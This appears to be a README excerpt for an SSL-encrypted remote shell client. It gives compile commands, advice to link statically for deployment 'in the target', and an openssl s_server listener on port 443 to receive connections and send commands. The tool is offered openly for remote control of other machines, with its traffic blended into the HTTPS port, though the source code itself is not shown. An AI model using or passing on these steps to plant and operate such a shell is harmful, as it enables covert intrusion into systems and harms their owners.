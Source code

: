 
Before compiling , please make sure you have the OpenSSL dev package installed .</br>
Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>
You will probably want to link statically against the library to avoid dependencies issues in the target . 

You can either use ncat (http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .</br>
To test the client, you can use openssl s_server utility on your server and wait for connections:</br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>

